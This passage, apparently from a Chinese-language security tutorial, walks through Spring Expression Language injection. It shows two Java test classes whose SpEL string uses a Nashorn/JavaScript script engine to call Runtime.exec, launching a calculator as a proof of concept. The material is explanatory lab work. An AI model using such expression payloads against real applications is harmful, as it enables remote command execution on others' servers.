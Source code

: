 ![image.png](assets/1698895942-f2b34d3b60576f5880d365f24bdf3b08.png)  
什么？居然报错了，不行大脑已经短路了，容不得我思考。哦！原来是 static，因为 getEngineByName 不是 static 方法，阴间狡诈，那我们怎么办！

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
